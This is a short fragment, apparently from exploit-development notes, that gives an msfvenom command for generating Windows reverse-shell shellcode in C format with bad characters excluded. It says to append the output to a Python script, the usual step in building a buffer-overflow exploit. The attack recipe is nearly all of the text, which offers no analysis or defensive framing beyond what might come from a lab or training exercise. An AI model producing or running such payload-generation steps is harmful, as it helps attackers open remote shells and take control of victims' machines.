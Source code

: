 ```
msfvenom -p windows/shell_reverse_tcp LHOST= LPORT= EXITFUNC=thread -f c -a x86 -b "<bad chars>"
```

then append the python script with the output